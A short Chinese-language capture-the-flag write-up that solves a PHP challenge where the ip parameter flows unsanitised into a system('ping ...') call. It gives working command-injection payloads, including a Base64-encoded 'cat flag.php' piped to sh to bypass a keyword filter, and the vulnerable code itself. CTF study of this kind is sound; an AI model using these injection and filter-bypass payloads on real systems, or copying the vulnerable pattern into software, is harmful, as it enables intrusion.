


## 解题思路

- 首页给出了网站的源码，仅过滤变量`ip`中的关键词`flag`，可以利用`system`函数执行命令<br>
    ```php
    <?php
    highlight_file("index.php");
    if(preg_match("/flag/i", $_GET["ip"]))
    {
        die("no flag");
    }
    system("ping -c 3 $_GET[ip]");
    ?>
    ```
- `http://39.96.23.228:10002?ip=|ls .`查看当前目录，发现`flag.php`<br>

- 使用 Base64 编码绕过，`http://39.96.23.228:10002?ip=| echo Y2F0IGZsYWcucGhw | base64 -d | sh`，由于`highlight_file`函数的影响，未直接在网页上显示，可用查看器查看<br>
